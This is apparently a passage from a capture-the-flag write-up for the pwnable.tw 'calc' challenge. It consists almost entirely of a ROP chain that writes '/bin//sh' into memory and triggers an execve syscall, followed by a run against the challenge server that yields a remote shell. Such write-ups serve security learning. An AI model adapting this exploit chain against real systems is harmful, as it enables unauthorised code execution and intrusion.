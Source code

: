 ```python
# ROP, generated using ROPgadget --binary calc --ropchain 
overwrite_addr_at_offset(RA_OFFSET + 4 * 33, 0x08049a21) # int 0x80
overwrite_addr_at_offset(RA_OFFSET + 4 * 32, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 31, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 30, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 29, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 28, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 27, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 26, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 25, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 24, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 23, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 22, 0x0807cb7f) # inc eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 21, 0x080550d0) # xor eax, eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 20, 0x080ec068) # @ .data + 8
overwrite_addr_at_offset(RA_OFFSET + 4 * 19, 0x080701aa) # pop edx ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 18, 0x080ec060) # padding without overwrite ebx
overwrite_addr_at_offset(RA_OFFSET + 4 * 17, 0x080ec068) # @ .data + 8
overwrite_addr_at_offset(RA_OFFSET + 4 * 16, 0x080701d1) # pop ecx ; pop ebx ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 15, 0x080ec060) # @ .data
overwrite_addr_at_offset(RA_OFFSET + 4 * 14, 0x080481d1) # pop ebx ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 13, 0x0809b30d) # mov dword ptr [edx], eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 12, 0x080550d0) # xor eax, eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 11, 0x080ec068) # @ .data + 8
overwrite_addr_at_offset(RA_OFFSET + 4 * 10, 0x080701aa) # pop edx ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 9, 0x0809b30d) # mov dword ptr [edx], eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 8, 0x68732f2f) # //sh
overwrite_addr_at_offset(RA_OFFSET + 4 * 7, 0x0805c34b) # pop eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 6, 0x080ec064) # @ .data + 4
overwrite_addr_at_offset(RA_OFFSET + 4 * 5, 0x080701aa) # pop edx ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 4, 0x0809b30d) # mov dword ptr [edx], eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 3, 0x6e69622f) # /bin
overwrite_addr_at_offset(RA_OFFSET + 4 * 2, 0x0805c34b) # pop eax ; ret
overwrite_addr_at_offset(RA_OFFSET + 4 * 1, 0x080ec060) # @ .data
overwrite_addr_at_offset(RA_OFFSET + 4 * 0, 0x080701aa) # pop edx ; ret
```

And that's all. Let's execute our [exploit](exp.py):

```bash
$ python3 exp.py
[+] Opening connection to chall.pwnable.tw on port 10100: Done
[*] Switching to interactive mode
$ id
uid=1000(calc) gid=1000(calc) groups=1000(calc)
$ 
```